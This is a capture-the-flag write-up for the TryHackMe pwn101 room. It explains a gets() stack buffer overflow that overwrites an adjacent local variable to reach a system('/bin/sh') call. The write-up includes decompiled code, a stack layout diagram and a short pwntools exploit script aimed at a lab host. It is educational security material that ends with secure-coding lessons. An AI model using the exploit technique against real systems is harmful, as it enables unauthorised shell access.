





# TryHackMe — pwn101

**Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Date:** 2026-11-06  
**Tools:** `file`, `checksec`, IDA Pro, `gdb` + `pwndbg`, `pwntools`, Python 3  
**Binary:** 64-bit ELF (`pwn101-1644307211706.pwn101`) — not redistributed (TryHackMe content)  

---

## TL;DR

A classic introductory stack buffer overflow challenge. The binary uses the unsafe `gets()` function to read user input into a stack buffer at `[rbp-0x40]` without bounds checking. A local integer variable located at `[rbp-0x4]` is initialized to `0x539` (1337). If this variable is modified to any value other than `1337`, the program branches to an unintended path and executes `system("/bin/sh")`. Overwriting `60 bytes` of padding plus any arbitrary byte(s) changes the variable and pops an interactive shell.

---

## Recon

We begin by inspecting the file type and security mitigations using `file` and `checksec`:



Key observations from recon:
- **File Type:** ELF 64-bit LSB (x86-64), dynamically linked, not stripped.
- **Canary:** `No canary found` — Stack buffer overflows will not trigger stack cookie verification checks (`__stack_chk_fail`).
- **NX:** `NX enabled` — The stack is non-executable (shellcode injection on the stack is not possible).
- **PIE:** `PIE enabled` — Position Independent Executable; binary code addresses are randomized on each run.
- **RELRO:** `Full RELRO` — GOT entries are read-only after runtime linking.

> [!NOTE]
> Even though PIE, Full RELRO, and NX are enabled, our goal does not require hijacking the return address (`saved RIP`) or executing shellcode. Because `system("/bin/sh")` is already embedded in `main()`, we only need to corrupt an adjacent local stack variable.

---

## Static Analysis & Vulnerability

### 1. Decompilation in IDA Pro

Opening the binary in IDA Pro reveals a very concise `main()` function:



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[60]; // [rsp+0h] [rbp-40h] BYREF
  int v5;      // [rsp+3Ch] [rbp-4h]

  v5 = 1337;
  setup(argc, argv, envp);
  banner();
  puts(
    "Hello!, I am going to shopping.\n"
    "My mom told me to buy some ingredients.\n"
    "Ummm.. But I have low memory capacity, So I forgot most of them.\n"
    "Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D\n");
  puts("Type the required ingredients to make briyani: ");
  gets(v4);
  if ( v5 == 1337 )
  {
    puts("Nah bruh, you lied me :(\nshe did Tomato rice instead of briyani :/");
    exit(1337);
  }
  puts("Thanks, Here's a small gift for you <3");
  return system("/bin/sh");
}
```

### 2. Disassembly in GDB / Pwndbg

Disassembling `main` in `pwndbg` provides the exact memory offsets and instruction sequence:



Tracing the assembly:
1. `sub rsp, 0x40` — Allocates 64 bytes (`0x40`) of stack frame space.
2. `mov DWORD PTR [rbp-0x4], 0x539` — Stores `0x539` (`1337` in decimal) into `[rbp-0x4]`.
3. `lea rax, [rbp-0x40]` followed by `call gets@plt` — Calls `gets()` with the destination buffer pointer `[rbp-0x40]`.
4. `cmp DWORD PTR [rbp-0x4], 0x539` followed by `jne 0x8f9` — Compares `[rbp-0x4]` against `0x539`. If they are **not equal**, execution jumps to `main+107` (`0x8f9`), which prints a thank-you message and calls `system("/bin/sh")`.

Double-checking the hex constant `0x539` in Python confirms it equals `1337`:



### 3. Root Cause & Stack Layout

The vulnerability stems from the use of `gets()`, which reads input without verifying boundary limits:

```text
  Lower Memory Addresses
  +-----------------------------------+  <- [rbp - 0x40] (Start of v4 buffer)
  |                                   |
  |     v4 buffer (60 bytes)          |
  |                                   |
  +-----------------------------------+  <- [rbp - 0x04] (v5 integer)
  |     v5 variable (4 bytes: 0x539)  |
  +-----------------------------------+  <- [rbp] (Saved RBP)
  |     Saved Return Address (RIP)    |
  +-----------------------------------+
  Higher Memory Addresses
```

- Distance from buffer start `[rbp - 0x40]` to target variable `[rbp - 0x4]`:
  $$\text{Offset} = 0x40 - 0x04 = 0x3C = 60 \text{ bytes}$$
- Writing 60 bytes fills the buffer. Any subsequent byte directly overwrites `v5` (`[rbp-0x4]`), corrupting its value so that `v5 != 1337`.

---

## Exploit

We construct a pwntools script that delivers 60 dummy bytes followed by any 4-byte non-1337 value (e.g. `p32(1)` or `b"B" * 4`):

```python
#!/usr/bin/env python3
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

# Target connection details
HOST = args.HOST or "10.64.174.158"
PORT = int(args.PORT or 9001)

p = remote(HOST, PORT) if args.REMOTE else process(binary)

# 60 bytes padding to reach [rbp-0x4] + 4 bytes to overwrite v5
payload = b"A" * 60 + p32(1)

p.recvuntil(b"Type the required ingredients to make briyani:\n")
p.sendline(payload)
p.interactive()
```

*(The complete script is saved in [`exploit.py`](file:///home/thang/thm-writeups/pwn101/pwn101/exploit.py)).*

---

## Flag

Running the exploit against the target machine successfully bypasses the condition and yields an interactive shell:



```bash
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{redacted}
```

> **Flag:** `THM{redacted}` *(Flags and challenge solutions are redacted per TryHackMe writeup guidelines)*.

---

## Key Takeaways & Lessons

1. **Dangerous Functions (`gets`)**: `gets()` has been deprecated since C99 and removed in C11 because it does not accept a maximum buffer length. Secure alternatives like `fgets()` or `getline()` must always be used.
2. **Stack Variable Overwrite**: Memory corruption does not always require hijacking control flow or overwriting saved return pointers (`saved RIP`). Modifying neighboring local variables, flags, or function pointers on the stack is often simpler and unaffected by ASLR, PIE, or Stack Canaries.
